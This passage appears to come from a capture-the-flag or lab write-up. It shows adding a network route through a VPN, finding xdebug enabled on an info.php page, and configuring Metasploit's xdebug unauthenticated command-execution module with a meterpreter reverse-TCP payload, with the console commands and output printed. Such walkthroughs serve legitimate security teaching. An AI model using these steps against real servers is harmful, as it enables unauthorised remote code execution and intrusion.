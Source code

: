 Trying to ping the address of the web machine, we see that the destination network is unreachable. To fix this we manually add a route to this subnet via our new tun address from the vpn.

```
$ sudo ip route add 172.20.0.0/24 via 172.30.0.8
```

Navigating to the address of the web machine in our browser we see a directory listing with info.php and a vpn folder.

[![web_connect](/img/static/web_connect.png)](/img/static/web_connect.png)

Going over to info.php it displays the output of `phpinfo()`. The interesting thing here is that xdebug support is enabled which let's us easily get rce on the server. We will use the msf module for this since this seems like a pivot heavy box, which metasploit is a great help at.

[![xdebug_enabled](/img/static/xdebug_enabled.png)](/img/static/xdebug_enabled.png)

We select the module set the rhosts to the target, path to `/info.php`, the lhost to our second vpn ip and run the exploit. This results in a meterpreter php shell which sadly has no autoroute capabilities from my understanding.

```
msf6 > search xdebug

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/http/xdebug_unauth_exec  2017-09-17       excellent  Yes    xdebug Unauthenticated OS Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/http/xdebug_unauth_exec

msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/http/xdebug_unauth_exec) > set rhosts 172.20.0.10
rhosts => 172.20.0.10
msf6 exploit(unix/http/xdebug_unauth_exec) > set path /info.php
path => /info.php
msf6 exploit(unix/http/xdebug_unauth_exec) > set lhost 172.30.0.8
lhost => 172.30.0.8
```
